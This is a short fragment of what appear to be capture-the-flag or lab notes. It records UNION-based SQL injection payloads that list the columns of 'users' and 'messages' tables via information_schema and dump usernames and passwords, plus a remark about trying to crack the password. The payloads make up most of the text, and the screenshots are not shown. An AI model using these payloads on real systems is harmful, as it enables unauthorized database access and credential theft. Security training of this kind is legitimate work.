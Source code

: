 ```
union select group_concat(column_name),null,null,null from information_schema.columns where table_schema=database() and table_name = 'users'
```

![](attachments/Pasted%20image%2020250623164902.png)

```
union select group_concat(username,password),null,null,null from users
```
![](attachments/Pasted%20image%2020250623165125.png)

-> I tried to crack the password for a while, but I couldn't find anything even after a while so I went back to check the messages table for anything useful

```
union select group_concat(column_name),null,null,null from information_schema.columns where table_schema=database() and table_name = 'messages'
```
![](attachments/Pasted%20image%2020250623165428.png)
